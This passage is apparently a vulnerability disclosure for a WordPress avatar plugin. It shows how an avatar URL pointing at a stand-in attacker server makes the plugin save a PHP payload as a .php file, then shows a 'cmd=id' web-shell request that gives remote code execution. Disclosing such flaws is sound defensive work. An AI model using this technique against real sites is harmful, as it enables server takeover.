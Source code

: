 Then I updated the avatar field in the WordPress profile form with the following URL:

```
http://<attacker-server>/testimage.png
```

Once the profile was saved, the plugin downloaded the file, interpreted the `Content-Type: image/php`, and wrote the PHP payload with a `.php` extension in the uploads folder. The result was a web-accessible file that could be used to execute arbitrary system commands via a simple request like:

```
http://target-site.com/wp-content/uploads/[REDACTED]/avatar.php?cmd=id
```

This effectively results in **Remote Code Execution** via a file upload vector, achievable from a low-privileged authenticated user context. The vulnerability exists due to a lack of MIME validation, unfiltered reliance on the `Content-Type` header, and the use of uncontrolled input for determining file extensions.

